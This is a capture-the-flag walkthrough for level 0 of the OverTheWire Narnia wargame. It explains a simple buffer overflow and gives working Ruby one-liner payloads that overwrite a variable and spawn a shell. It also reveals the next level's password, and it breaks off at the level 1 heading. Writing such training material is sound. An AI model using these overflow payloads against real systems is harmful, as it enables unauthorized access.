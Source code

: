 # [Narnia](http://overthewire.org/wargames/narnia/)

For all levels `ssh narnia[level]@narnia.labs.overthewire.org -p 2226`

## Narnia 0

**user:** *narnia0*  
**pass:** *narnia0*

Looking at the source code for "/narnia/narnia0.c" we see that we have two variables.
`val` stores "0x41414141" and `buf` is allocated 20 characters.
The program then reads our input into `buf` but allows for 24 characters.
Those extra four characters should be enough to override `val`

This is a basic example of a buffer overflow. So if we run the below script:

`ruby -e 'puts "A"*20 + "BBBB"' | ./narnia0`

We see that `val` was successfuly overwritten. Now we need to put "Oxdeadbeef" into val instead of just four Bs.

`ruby -e 'puts "A"*20 + "\xde\xad\xbe\xef"' | ./narnia0`

Strange... our input is reversed. Thats because the memory is little-endian and stores things backwards. Lets tweak our script

`ruby -e 'puts "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0`

So we got `val` to correctly be "0xdeadbeef" but the program just terminated. Looking back at the source code, we were supposed to get a shell.
Well the program successfully ran and then the shell closed immediately.
We need a way to keep the shell open.

`(ruby -e 'puts "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0`

Perfect. We got a shell as narnia1!

`cat /etc/narnia_pass/narnia1`

Password for *narnia1*: **efeidiedae**

## Narnia 1

**user:** *narnia1*  
**pass:** *efeidiedae*

